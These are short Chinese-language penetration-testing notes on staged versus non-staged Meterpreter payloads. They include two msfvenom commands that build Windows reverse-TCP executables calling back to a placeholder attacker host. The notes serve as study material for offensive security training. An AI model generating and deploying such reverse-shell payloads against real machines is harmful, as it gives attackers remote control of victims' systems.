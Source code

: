 # Microsoft Office Client Side Code Executtion
## Staged vs Non-staged Payloads
一般來說平常使用相關 Payload 框架，都會搭配可以使用弱點，也就是說弱點是拿來突破防禦機制，Payload可以說是維持存取的一種手段，維持存取的類型Payload分為
### 以下meterpreter為例:
#### Non-staged Payload (無階段性)
直接在記憶體中呼叫 執行完整的Payload
通常送過去的Payload 大小較大
Ex: windows/meterpreter_reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter_reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o non-staged.exe
```
#### Staged Payload (有階段性)
只送一小段 Payload 做接應
較穩定，且有其他功能
Ex: windows/meterpreter/reverse_tcp
##### 產生一個 exe
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=x -f exe -o staged.exe
```
